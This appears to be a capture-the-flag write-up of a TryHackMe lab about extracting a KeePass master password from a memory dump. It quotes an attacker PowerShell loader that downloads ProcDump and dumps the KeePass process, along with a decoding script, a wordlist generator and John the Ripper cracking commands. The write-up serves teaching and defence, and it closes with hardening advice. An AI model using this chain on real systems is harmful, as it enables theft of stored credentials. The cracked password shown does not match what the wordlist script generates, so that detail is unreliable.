








# 🔐 KeePass Memory Dump & Credential Extraction

## 📋 Overview

An offensive security lab focused on extracting a KeePass master password directly from
process memory — no phishing, no keylogger, just memory forensics against a password
manager that was assumed to be safe simply because it was "just running in the background."

The attack chain covers dumping the KeePass process with a custom PowerShell loader,
decoding and cleaning the captured memory, generating a targeted wordlist based on a
partial password fragment recovered from the dump, and finally cracking the KeePass
database hash to gain full access to every stored credential.

**Type:** Credential Access / Memory Forensics
**Platform:** TryHackMe
**Tools:** PowerShell, ProcDump, Python, John the Ripper, keepass2john, kpcli

---

## 1. 🌐 Establishing the Initial Session

Captured network traffic showing an HTTP session between the attacker and victim host,
including a PowerShell payload delivery over port 1339 — the entry point for the memory
dumping tooling used later in the attack.

## 2. 🛠️ The PowerShell Memory Dump Loader

Reviewed the PowerShell script (`xxxmmdcclxxxiv.ps1`) responsible for pulling this attack
off. It silently downloads **ProcDump** from Microsoft Sysinternals, extracts it, locates
the running `KeePass` process, and dumps its memory to disk:

```powershell
$ProcDumpDwnlOAdURL = 'https://download.sysinternals.com/files/Procdump.zip'
Invoke-WebRequest -Uri $ProcDumpDwnlOAdURL -OutFile $ProcDumpzIpPaTH
$KEEPASsPrOCesS = Get-Process -Name 'KeePass'
& $dUmPFilepath -accepteula -ma $($KEEPASsPrOCesS.Id) "$dUmPFilepath"
```

No exploit needed here — KeePass keeping the decrypted database open in memory while
running is inherent to how it works, which is exactly what this technique targets.

## 3. 🔓 Decoding the Captured Memory Dump

The dumped file wasn't handed over in the clear — it was base64-encoded and XOR-obfuscated
with a single-byte key. Wrote a Python script to reverse both layers and recover the raw
memory dump:

```python
with open('539.dmp', 'r') as file:
    encoded_data = file.read()

binary_data = base64.b64decode(encoded_data)
xor_key = 0x41  # ASCII 'A'

decrypted_data = bytearray(len(binary_data))
for i in range(len(binary_data)):
    decrypted_data[i] = binary_data[i] ^ xor_key

with open('1337.dmp', 'wb') as file:
    file.write(decrypted_data)
```

## 4. 🔍 Extracting the KeePass Database From Memory

Ran a KeePass dump parser against the recovered `.dmp` file to scrape database structure
and fragments directly out of process memory, scanning byte-by-byte until it located the
tail end of usable data.

## 5. 🧩 Recovering a Partial Password and Building a Custom Wordlist

Memory scraping surfaced a partial password fragment (`NoWaYIcanFOrGetThis123`) alongside a
custom character set. Instead of guessing blindly, wrote a small script to generate
targeted password permutations by prefixing every character in the known set onto the
recovered fragment:

```python
l = '!"\\*#$%&\'()*+,-./0123456789:;?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_abcdefghijklmnopqrstuvwxyz{|}~'
w = 'NoWaYIcanFOrGetThis123'

i = 0
while i < len(l):
    print(l[i] + w)
    i += 1
```

This turned a memory fragment into a tight, targeted wordlist instead of relying on a
massive generic one. 🎯

## 6. 🧨 Cracking the KeePass Database Hash

Extracted the crackable hash from the recovered `.kdbx` database and ran it through John
using the custom wordlist:

```bash
keepass2john Database1337.kdbx > hash.txt
john hash.txt --wordlist=passlist.txt
```
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
1g 0:00:00:00 DONE NoWaYIcanFOrGetThis123..?NoWaYIcanFOrGetThis123

Cracked on the first targeted attempt — confirming the custom wordlist approach paid off.

## 7. 🗝️ Opening the Vault with kpcli

With the master password recovered, opened the database using the KeePass CLI to browse
every stored credential:

```bash
kpcli
open Database1337.kdbx
ls
cd Database1337/
ls
```
Groups
Database1337/
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
Entries

## 8. 🏁 Retrieving the Final Credential

Browsed the entries and pulled the final stored credential, confirming full compromise of
the password vault:

```bash
show 2
```
Title: You win!
Pass: [REDACTED]

Full read access to every credential the victim had stored — email, banking, network
devices, and Windows logins — all recovered without ever touching the victim's actual
KeePass master password entry point.

---

## ✅ Findings

- A running KeePass process holds the decrypted database in memory by design, making it a
  viable target for memory dumping even without exploiting a vulnerability in KeePass itself.
- The attacker used a heavily obfuscated PowerShell script (mixed-case variable names,
  base64/XOR-encoded payload) to evade casual detection while dumping the process.
- A partial password fragment recovered from memory was enough to build a small, targeted
  wordlist and crack the full master password in a single attempt.
- Once cracked, the KeePass vault exposed credentials across multiple categories —
  email, banking, network, and Windows — a full compromise of the victim's credential store.

## 💡 Key Takeaway

Password managers protect credentials at rest, not necessarily in memory while unlocked and
running. This lab is a strong reminder that endpoint hygiene — restricting who can dump
process memory, monitoring for tools like ProcDump being pulled down unexpectedly, and
locking password managers when not actively in use — matters just as much as the strength
of the master password itself. 🔒

## 🛠️ Skills Demonstrated

`Memory Forensics` `PowerShell Analysis` `Base64/XOR Deobfuscation` `Python Scripting`
`Custom Wordlist Generation` `Offline Password Cracking` `Credential Access`

---

## 🖼️ Screenshots

**1. Network traffic capturing the PowerShell delivery**


**2. PowerShell ProcDump memory loader script**


**3. Python script decoding the base64/XOR memory dump**


**4. Extracting database contents from the memory dump**


**5. Custom wordlist generation script**


**6. Cracking the KeePass hash with John**


**7. Opening the vault with kpcli**


**8. Final recovered credential**

